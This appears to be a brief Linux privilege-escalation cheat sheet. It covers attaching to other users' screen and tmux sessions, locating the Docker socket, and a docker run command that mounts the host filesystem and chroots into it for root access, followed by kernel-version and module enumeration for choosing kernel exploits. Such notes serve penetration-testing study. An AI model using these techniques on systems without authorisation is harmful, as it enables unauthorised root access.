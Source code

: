 
# running sessions
## check for screen sessions
```
screen -ls
screen -dr <session> 
```

## check for tmux sessions
```
tmux ls
tmux a -t <sessions>
```


# Docker
```
# search socket for docker
find / -name docker.sock 2>/dev/nul
```

## list docker images 
```
docker images
```

## run the image, mounting the host disk and chroot
```
docker run -it -v /:/host/ <dockerImage> chroot /host/ bash
```


# Kernel Exploits
## get kernel version
```
uname -a
cat /etc/issue
cat /etc/*-release
cat /proc/version
```

## list kernel modules
```
lsmod
# get more information about specific kernel module
/sbin/modinfo <module>
```
